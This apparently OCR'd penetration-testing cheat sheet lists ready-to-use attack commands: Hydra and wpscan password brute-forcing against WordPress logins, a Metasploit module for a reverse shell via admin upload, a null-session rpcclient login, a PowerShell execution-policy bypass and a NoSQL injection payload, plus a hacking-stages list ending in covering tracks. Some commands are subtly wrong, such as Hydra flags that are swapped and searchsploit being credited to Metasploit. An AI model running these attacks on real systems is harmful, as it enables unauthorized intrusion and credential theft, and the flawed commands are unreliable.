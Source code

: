 ### To search for Exploits on Metasploit by Name

```
> $ searchsploit apache 1.2.4
```

### Wordpress Open

If `/wp-login.php` is found in the Enumeration scanning, it can be Wordpress site.

To crack the login credentials for Wordpress, Use Hydra. We can use Burpsuite to capture the request parameters
```
> $ hydra -V -l wordlist.dic -p 123 <HOST_IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username
```

To scan Wordpress site for Vulnerabilities.

```
> $ gem install wpscan
> $ wpscan --url <HOST_IP> --usernames <USERNAME_FOUND> --passwords wordlist.dic
```

To get a reverse shell using Admin Upload.

```
> $ msfconsole
> $ use exploit/unix/webapp/wp_admin_shell_upload
```

### RPC Open

If RPC is open, we can login using rpclient.

```
> $ rpcclient -U "" <HOST_IP>
```

### Powershell
To bypass execution policy
```
> $ powershell.exe -exec bypass
```

### NOSql Code Injection

```
username[$ne]=help&password[$ne]=help&login=login
```

## Web Hacking

### Five Stages of Web Hacking

```
    * Reconnaissance
    * Scanning and Enumeration
    * Gaining Access
    * Maintaining Access
    * Covering Tracks
```
